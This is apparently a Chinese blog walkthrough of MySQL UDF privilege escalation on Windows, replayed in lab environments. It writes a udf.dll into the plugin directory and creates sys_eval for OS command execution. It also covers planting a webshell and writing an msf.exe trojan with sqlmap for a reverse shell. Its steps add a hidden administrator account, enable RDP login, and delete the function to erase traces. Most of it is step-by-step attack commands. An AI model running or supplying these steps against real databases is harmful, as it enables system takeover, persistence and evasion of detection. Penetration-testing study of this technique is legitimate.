

Mysqludf提权
UDF
**UDF (user defined function)**，即用户自定义函数。是通过添加新函数，对MySQL的功能进行扩充，其实就像使用本地MySQL函数如 user() 或 concat() 等。
那么，我们该如何使用UDF呢？
假设我的UDF文件名为 udf.dll，存放在MySQL安装目录的 lib/plugin 目录下(当MySQL>5.1，该目录默认不存在)。
在 udf.dll 文件中，我定义了名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。但是如果我现在就打开 MySQL 命令行，使用 select sys_eval(‘whoami’)；的话，系统会返回 sys_eval() 函数未定义。因为我们仅仅是把 udf.dll 放到了 lib/plugin 目录下，并没有引入。类似于面向对象编程时引入包一样，如果没有引入包，那么这个包里的类你是用不了的。
所以，我们应该把 udf.dll 中的自定义函数引入进来。看一下官方文档中的语法：
实例用法：
1 | create function sys_eval returns string soname 'udf.dll'; |
只有两个变量:
- 一个是 function_name（函数名），我们想引入的函数是 sys_eval。
- 还有一个变量是 shared_library_name（共享包名称），即 udf.dll 。
至此我们已经引入了 sys_eval 函数，下面就可以使用了。
这个函数用于执行系统命令，用法如下：
1 | select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数 |
- 当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。
- 当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。
UDF提权步骤
一：查看 secure_file_priv 的值
secure_file_priv 是用来限制 load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限
1 | show global variables like 'secure%'; |
我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。
- 如果 secure_file_priv 为NULL是不能写入导出文件的。
- 如果 secure_file_priv没有具体的值，则可以写入导出文件。
- secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置。
二：查看plugin的值
但是实际测试发现UDF提权成功与否与该值无关。
1 | select Host,user,plugin from mysql.user where user = substring_index(user(),'@',1); |
三：查看系统架构以及plugin目录
1 | show variables like '%compile%'; #查看主机版本及架构 |
这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)

四：将dll文件写入plugin目录,并且创建函数
创建一个表并将二进制数据插入到十六进制编码流中。你可以通过insert语句或将其分解为多个部分，然后通过update语句拼接二进制数据。
1 | create table temp(data longblob); |
执行select data from temp into dumpfile “G:\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\udf.dll”; 时有可能会出现以下错误，因为当MySQL大于5.1时，默认是没有 lib\plugin 目录的。而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can’t create/write to file

而在执行 create function sys_eval returns string soname ‘udf.dll’; 命令时出现 1126 - Can’t open shared library ‘udf.dll’的错误。我看网上有的解释是说是因为在MySQL安装目录下默认没有 lib\plugin 目录导致的。但是我不认为是这个错误，因为如果上一步将dll文件写到 lib\plugin 目录没报错的话，说明dll文件已经写到 lib\plugin 目录了，因此也就不存在这个错误。但是目前还没有找到解决版本。

五：使用系统命令
在将 udf.dll 文件写入plugin目录后，我们就可以使用 sys_eval 函数了。
1 | select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数 |

如果得到了数据库的用户名和密码，并且可以远程连接的话，可以使用MSF里面的 exploit/multi/mysql/mysql_udf_payload 模块自动注入。
使用MSF进行UDF提权
使用MSF中的 exploit/multi/mysql/mysql_udf_payload 模块也可以进行UDF提权。MSF会将dll文件写入lib\plugin\目录下(前提是该目录存在，如果该目录不存在的话，则无法执行成功)，dll文件名为任意创建的名字。该dll文件中包含sys_exec()和sys_eval()两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。
1 | select * from mysql.func where name = "sys_exec"; |
手动使用该 dll 文件创建sys_eval()函数，来执行有命令的回显。
1 | create function sys_eval returns string soname "XJhSEGuE.dll"; |
UDF提权复现(php环境)
靶机环境：Windows Server 2003 、php 5.4.3 、 Apache2.4.23
这里我们已经通过上传一句话木马拿到网站的shell了，并且得到了网站数据库的用户名和密码都是root。但是因为获得的系统用户权限太低，无法创建新用户。而且也不能使用其他提权等手段。所以，我们现在要做的就是使用UDF进行提权。
首先，我们把 phpspy.php 和 udf.php 两个文件上传到网站服务器
然后先访问 phpspy.php 页面，MySQL Manager——>输入数据库的密码——>选择一个数据库
由于MySQL>5.2版本后，在其安装目录的lib目录下没有 plugin 目录，所以，我们得新建这个目录，并且将我们的 udf.dll 文件放入 plugin目录下，我们执行下面命令，完成创建plugin目录，并且将udf.dll放入该目录下
1 | select 'xxxxxx' into dumpfile 'C:\\Program\ Files\\MySQL\\MySQL\ Server\ 5.4\\lib\\plugin::$INDEX_ALLOCATION' |
然后我们访问 udf.php 页面，并且用数据库的账户名和密码登录。这是登录后的页面
然后我们点击 Dump UDF ，提示Dump DLL Success ！
然后我们点击 Create Function，下面就会有 select shell(‘cmd’,’whoami’) ，然后我们点击 Mysql_query ，下面就会有whoami命令的执行结果
我们可以把命令换成 net user hack 123 /add ，新建一个用户，可以看到成功了！然后我们接下来吧hack用户添加到administrators管理员组内，就可以远程登录了！
UDF提权后如何反弹shell
当UDF提权后，我们想反弹一个MSF或者CS的shell。
首先使用CS的Powershell反弹命令是不行的，这里由于powershell命令引号过多，不能执行。
我们现在的思路是执行木马文件，反弹shell。这里由于sys_eval函数不能执行windows那些远程下载命令，所以我们选择通过sqlmap的写入文件功能，将木马写入当前目录。
首先，查看当前目录
然后sqlmap写入木马。这里本来是准备远程下载的，但是发现 certutil 和 bitsadmin 执行都发生错误，有可能是这个机器的问题。
1 | sqlmap -u "http://192.168.10.130/?id=2" --file-write msf.exe --file-dest "C:\phpStudy\PHPTutorial\MySQL\data\hack.exe" |
执行木马反弹。这里需要注意的是，sys_eval函数只能执行当前目录下的文件，所以，也只能把文件写入当前路径下。
实验环境：
- 攻击机：win7
- 靶机：win2003
复现流程：
在靶机写入一句话木马并用蚁剑连接
webshell.php内容：
通过蚁剑连接webshell
通过蚁剑的数据操作功能连接该网站的mysql数据库
连接数据库后我们需要先查看数据库的位数与版本，看看数据库是32位还是64位，数据库是>=5.1还是<5.1，以此来选择不同的dll文件与不同的路径放置dll文件。在这里我们使用show variables like ‘%version_%’查看数据库位数
可以看到当前数据库的位数是32位
再使用select version();查看数据库版本
可以看到数据库版本为5.5.53>5.1所以我们的udf文件应该放置到mysql目录下的lib/plugin目录中。其中plugin目录是不存在的，我们需要自己建立一个plugin的目录。
此时我们就需要找到提权所需的udf.dll文件。该文件可以在sqlmap中找到，这些udf文件存放在sqlmap的sqlmap\data\udf\mysql\windows目录，该目录下有32和64两个文件夹，分别对应不同mysql位数的dll文件，因为这里的mysql是32位，所以我们选择32位的udf文件来进行提权。使用udf提权前需要利用sqlmap自带的解码工具cloak.py，进入到 sqlmap\extra\cloak 目录下，执行命令：python2 cloak.py -d -i D:\Penetration\sqlmap\data\udf\mysql\windows\32\lib_mysqludf_sys.dll_
解码后会在sqlmap\data\udf\mysql\windows\32文件夹下生成 dll 文件。在 mysql 安装路径下的 lib 文件夹内创建 plugin 目录，上传 lib_mysqludf_sys.dll。
此时udf文件已经上传至mysql目录下的/lib/plugin目录，接下来我们就要声明该文件中所定义的函数并使用它了。在这里我们使用的是sys_eval()函数
首先使用create function sys_eval returns string soname “lib_mysqludf_sys.dll”来声明sys_eval()函数
可以看到已经导入成功，紧接着使用select * from mysql.func where name = ‘sys_eval’;查看是否导入成功或者重复导入
可以看到sys_eval已经导入成功，这时我们就可以使用sys_eval执行系统命令了。
首先我们使用select sys_eval(‘net user Yhck 123456 /add ‘);命令添加一个名为Yhck的用户

可以看到命令执行成功。
再执行select sys_eval(‘net localgroup administrators Yhck /add’);命令将Yhck用户添加进管理员组进行提权
可以看到提权成功。
使用select sys_eval(‘netstat -ano | findstr 3389’);命令查看3389端口是否开启
可以看到3389端口已经开启。
启用mstsc.exe连接靶机的3389端口，使用Yhck 123456进行登录
连接成功
连接成功后使用
- drop function sys_eval;
- delete from mysql.func where name=’sys_eval’;
这两条命令删除所创建的自定义函数，清除痕迹
 wechat
wechat alipay
alipay